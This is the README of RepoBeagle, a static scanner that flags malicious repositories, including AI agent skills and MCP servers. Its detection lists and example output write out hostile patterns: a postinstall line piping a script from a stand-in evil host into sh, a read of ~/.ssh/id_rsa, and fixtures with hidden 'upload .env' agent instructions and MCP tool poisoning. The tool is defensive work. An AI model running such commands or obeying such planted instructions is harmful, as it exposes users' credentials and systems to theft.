

# RepoBeagle



**Use it as a Grok Bot:** [Get the RepoBeagle bot](https://x.ai/bot/bTuuNK785OULBheQ5rPZ-) and paste any repo link to get a safety verdict.

*Sniffs out malicious repos before you trust them.* Run `repobeagle scan <url>`. Want it shorter? Add `alias beagle=repobeagle` to your shell; the installer does not create `beagle` because PackageBeagle already uses that name. The wrapper adds every Docker hardening flag for you (`--rm --network none --read-only --cap-drop ALL --security-opt no-new-privileges --user $(id -u):$(id -g) --tmpfs /tmp`, target mounted `:ro`), so you never type docker flags.

A static safety check for untrusted repos, such as LLM-generated skills, plugins, MCP servers and "guides".
You give it a git URL or a local folder and get a **GREEN / YELLOW / RED** verdict, with `file:line` evidence for each finding.

**RepoBeagle never runs repo code.** It never runs installs or builds, and it never extracts archives.

## Install (DGX Spark / any Linux, arm64 or x86_64)
The scanners ship as a prebuilt **public** multi-arch image (no login needed), `ghcr.io/jvr0x/repobeagle` (linux/amd64 + linux/arm64). It's built by `.github/workflows/image.yml` on every push to main, on `v*` release tags, weekly, and on manual dispatch. Release tags get `v1.0.0`-style and `stable` tags; main also gets `latest`, `sha-<commit>` and the ISO week (e.g. `2026-W42`). `install.sh` and `repobeagle` default to the image matching the `VERSION` file (currently `v1.0.0`).
```bash
git clone https://github.com/jvr0x/repobeagle && cd repobeagle
./install.sh                   # docker pull ghcr.io/jvr0x/repobeagle:v1.0.0 + install the repobeagle wrapper
./install.sh --build-local     # fallback: build the same image locally from the Dockerfile
./install.sh --local-tools     # also install gitleaks/semgrep/guarddog/bandit on the host for --no-docker
```
`install.sh` is idempotent. It does the following:
- Checks that Docker is available and pulls (or builds) the image.
- Installs `osv-scanner`, which runs on the host because it needs network. Arch is detected from `uname -m`: aarch64 gets `linux_arm64`, x86_64 gets `linux_amd64`.
- Writes a thin `~/.local/bin/repobeagle` wrapper.

If Docker isn't available, it installs the host tools automatically, and scans run with `--no-docker`.

How a scan is split up:
- **Clone (host, network-enabled):** a filtered, hooks-disabled git fetch that never executes anything.
- **Scan (container):** `docker run --rm --network none --read-only --cap-drop ALL`, non-root, with the clone mounted read-only.
- **OSV (host):** lockfiles only.

Set `BEAGLE_IMAGE` to use a different tag (e.g. `ghcr.io/jvr0x/repobeagle:latest` for the newest main build).

## Usage
```bash
repobeagle scan <git-url | local-dir> [--strict|--balanced|--relaxed] [--keep] [--json out.json]
                [--no-docker] [--no-osv] [--verify-deps] [--all] [--no-color]
```
Exit code: 0 = GREEN, 1 = YELLOW, 2 = RED. Colour turns off when output isn't a terminal or `NO_COLOR` is set.

| Profile | RED when | YELLOW when |
|---|---|---|
| strict | any high or critical | any low or above |
| balanced (default) | any critical | any medium or above |
| relaxed | any critical | any high |

To change the thresholds, edit `PROFILES` in `repobeagle.py`.

## Pipeline
1. **Fetch** always uses a filtered checkout, so huge repos stay small. It runs `git clone --depth 1 --filter=blob:none --no-checkout --no-recurse-submodules`, lists files with `git ls-tree`, then does a sparse checkout that **excludes archives and binaries**. Those files are reported as findings but never downloaded. For example, DataDog's ~44 GB malware dataset comes down as ~250 MB in about 17 s. The checkout goes into a fresh temp dir (mode 0700), with these protections: `GIT_TERMINAL_PROMPT=0`, `core.hooksPath=/dev/null`, `core.symlinks=false`, `protocol.file.allow=never`, `GIT_ALLOW_PROTOCOL=https:http:ssh`, no credential helper, and LFS smudge skipped. A local directory is copied instead, without `.git`. The copy is deleted at the end unless you pass `--keep`.
2. **Offline scanners** run in `docker run --rm --network none --read-only --cap-drop ALL --security-opt no-new-privileges --user <you, non-root>` with the clone mounted **read-only** and no home directory or credentials mounted. If Docker or the image is missing, or you pass `--no-docker`, they run locally on the temp folder.
   - **gitleaks** `detect --no-git` (redacted). Hits in test/docs paths are downgraded.
   - **Semgrep** with `rules/custom.yml` (decode-and-exec, download-and-run, child_process curl, dangerous C string functions, weak Go crypto, SQL string concatenation, Dockerfile last-USER-root).
   - **GuardDog** source scan of the local package (pypi and/or npm if the repo root has a manifest). `capability-*` rules count as low and `threat-*` rules as high.
   - **Bandit** static analysis of Python sources (shell=True subprocess, yaml.load, asserts in shipped code, hardcoded passwords). Hits in test/docs paths are downgraded.
   - **Agent checks** (pure Python, stdlib):
     - Invisible and bidi Unicode (zero-width, U+202A–202E, U+2066–2069, tag chars U+E0000–E007F). Hidden tag text is decoded and shown.
     - Prompt injection in README, SKILL.md, AGENTS.md, CLAUDE.md, .cursor rules, *.mdc and prompt files, including inside HTML comments.
     - Hidden markdown in every .md/.mdx: HTML comments, `<details>` blocks, image alt/title text, CSS-hidden text and whitespace-padded lines carrying agent or exfil wording.
     - **MCP tool poisoning**: `<IMPORTANT>` blocks, concealment wording and secret reads inside MCP tool descriptions or docstrings.
     - Reading ~/.ssh, .env, cloud creds, browser cookies or wallets near a network sink.
     - MCP/plugin manifests that grant a shell, `/` or home filesystem access, `*` or `Bash(*)` permissions, `dangerously*` flags, remote servers or `npx -y`.
     - Install hooks: npm pre/post/install, setup.py cmdclass and os.system, pyproject build hooks, devcontainer commands, VS Code folderOpen tasks, git hooks, Makefile.
     - Download-and-execute patterns: `curl|sh`, `wget|bash`, `base64 -d|sh`, eval/exec of decoded blobs, large base64 blobs.
     - Prebuilt binaries, and archives. Archives are **never extracted**: zip headers are read to spot password-protected or encrypted samples, which are flagged as uninspectable.
     - Build-time code beyond npm: setup.cfg/build.py/hatch_build.py fetch or subprocess, `build.rs`, `//go:generate` with curl/sh, node-gyp actions, unknown pyproject `build-backend`, curl/base64/nc in Makefile/justfile.
     - GitHub Actions: pwn-request (`pull_request_target`/`workflow_run` + PR head checkout), other privileged triggers, secrets echoed, `curl|sh`, write permissions, actions not pinned to a commit SHA.
     - Executables disguised by extension (magic-byte mismatch, e.g. an ELF named `.png`), high-entropy blobs (Shannon > 5.2), minified JS outside build/dist paths.
     - Typosquatted dependencies (npm, PyPI, crates) one edit away from popular packages.
3. **OSV-Scanner** runs **on the host, outside the sandbox**, because the vulnerability DB is online. It only reads lockfiles and manifests from the clone and sends package names and versions to osv.dev. `--no-osv` skips it. (Offline mode `--offline-vulnerabilities --download-offline-databases` is a possible later improvement.) It also catches `MAL-` malicious-package advisories.
4. **Trust signals** (host, unauthenticated public GitHub API, `--no-trust` skips): repo younger than 30 days, owner younger than 90 days, ≥500 stars in <60 days, ≥200 stars with one contributor, renamed/transferred repos. LOW/INFO only, so they never make a repo RED on their own; offline or rate-limited runs just note it.
5. **`--verify-deps`** (optional, host, network): GuardDog downloads each dependency from requirements.txt or package.json and statically scans it. Nothing is installed.
6. **AI review** (optional): set `BEAGLE_LLM_URL` (legacy `REPO_GUARD_LLM_URL` also accepted) to an OpenAI-compatible endpoint, for example `http://spark1:8000/v1`. Optional extras are `BEAGLE_LLM_MODEL`, `BEAGLE_LLM_KEY` and `BEAGLE_LLM_TIMEOUT`.
   - It sends key files (invisible characters rendered as `<U+XXXX>`) plus the top findings, and asks for an intent judgment.
   - The model can only **raise** the verdict: malicious with confidence ≥0.6 makes it RED, and suspicious turns GREEN into YELLOW.
   - If the variable is unset, this step is skipped cleanly.

Apart from the clone, OSV/GuardDog-verify, the GitHub trust lookup and your own LLM endpoint, it makes no other network calls.

## Example output (abridged)
```
repobeagle 1.0.0  |  tests/fixtures/trap-npm
  VERDICT: RED    2 critical / 2 high findings, e.g. npm lifecycle script 'postinstall' runs automatically on install (package.json:8)
  CRITICAL [agent-checks] package.json:8
           npm lifecycle script 'postinstall' runs automatically on install
           > "postinstall": "curl -fsSL https://evil.example.invalid/x.sh | sh && node scripts/setup.js"
  CRITICAL [agent-checks] scripts/setup.js:5
           Code reads secrets/credentials near a network call
           > const key = fs.readFileSync(os.homedir() + '/.ssh/id_rsa', 'utf8');
Recommended actions:
  - Do NOT install, build, run, or point an AI agent at this repo. ...
```

## Tests
Run `tests/run_tests.sh`, or `tests/run_tests.sh --offline` for the fixtures only.

| Target | Expect |
|---|---|
| tests/fixtures/trap-npm (postinstall `curl\|sh`, reads ~/.ssh/id_rsa and POSTs it) | RED |
| tests/fixtures/trap-skill (SKILL.md with zero-width and tag-char hidden "upload .env" instruction, over-broad mcp.json) | RED |
| tests/fixtures/trap-gha, trap-markdown, trap-build, trap-binary (one trap per check family; each rule name must fire) | YELLOW/RED |
| tests/fixtures/control-clean (pinned actions, minified bundle in `public/`, normal README with comment/details/alt text, real deps), `--strict` | GREEN |
| tests/test_trust.py (offline trust-signal unit tests) | pass |
| psf/requests, tj/commander.js | GREEN/YELLOW |
| invariantlabs-ai/mcp-injection-experiments | RED (MCP tool poisoning / exfil instructions) |
| juice-shop/juice-shop | YELLOW (control: intentionally vulnerable code, not malicious) |
| DataDog/malicious-software-packages-dataset | YELLOW: about 29.7k malware-sample zips are listed via ls-tree and flagged as uninspectable. They are never downloaded or extracted. |

## What it catches, and what it doesn't
**Catches**: obvious install-time payloads, credential theft patterns, hidden or invisible agent instructions, MCP tool poisoning, over-privileged agent configs, committed secrets, known-vulnerable or known-malicious dependencies, obfuscated loaders, dangerous C APIs, and weak Go crypto or injectable SQL built by concatenation.

**Misses**:
- Well-obfuscated or novel logic, and payloads fetched at runtime from innocent-looking URLs.
- Malicious code inside binaries or archives (flagged, not inspected), and anything in git history older than the shallow clone.
- Submodules, which are not fetched.
- Clever natural-language injection that avoids the keywords (the optional AI review helps here).

Static analysis can't prove a repo is safe.

**False positives**: security tools and test suites can trigger credential and secret rules. Test and docs paths are downgraded, but YELLOW on big honest repos is normal.
